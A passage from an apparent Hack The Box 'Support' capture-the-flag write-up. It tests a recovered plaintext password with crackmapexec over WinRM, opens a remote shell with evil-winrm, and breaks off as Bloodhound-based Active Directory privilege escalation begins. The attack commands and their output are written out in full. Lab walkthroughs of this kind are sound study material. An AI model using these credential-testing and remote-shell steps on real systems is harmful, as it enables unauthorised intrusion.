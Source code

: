That field `info` really looks like a password, let's try it out:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Support]
└─$ crackmapexec winrm 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
SMB         10.10.11.174    5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.10.11.174    5985   DC               [*] http://10.10.11.174:5985/wsman
WINRM       10.10.11.174    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

Cool, now we can just get a shell with `evil-winrm` and start playing with the machine.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Support]
└─$ evil-winrm -i 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
```

## Privilege escalation

After a bit, I decided to upload the Bloodhound collector to start searching for AD privilege escalation vectors. This is what I found:
